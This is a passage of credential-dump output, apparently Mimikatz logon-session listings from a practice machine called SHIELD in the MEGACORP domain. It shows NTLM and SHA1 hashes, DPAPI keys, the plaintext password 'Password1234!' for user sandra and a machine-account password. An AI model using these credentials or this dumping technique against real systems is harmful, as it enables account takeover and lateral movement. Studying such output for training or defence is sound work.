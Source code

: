 ~~~
Logon Time        : 6/13/2020 9:12:22 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
	msv :	
	 [00000003] Primary
	 * Username : sandra
	 * Domain   : MEGACORP
	 * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
	 * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
	 * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
	tspkg :	
	wdigest :	
	 * Username : sandra
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : sandra
	 * Domain   : MEGACORP.LOCAL
	 * Password : Password1234!
	ssp :	
	credman :	

Authentication Id : 0 ; 220797 (00000000:00035e7d)
Session           : Service from 0
User Name         : wordpress
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 6/13/2020 9:11:35 AM
SID               : S-1-5-82-698136220-2753279940-1413493927-70316276-1736946139
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/13/2020 9:11:03 AM
SID               : S-1-5-17
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	
~~~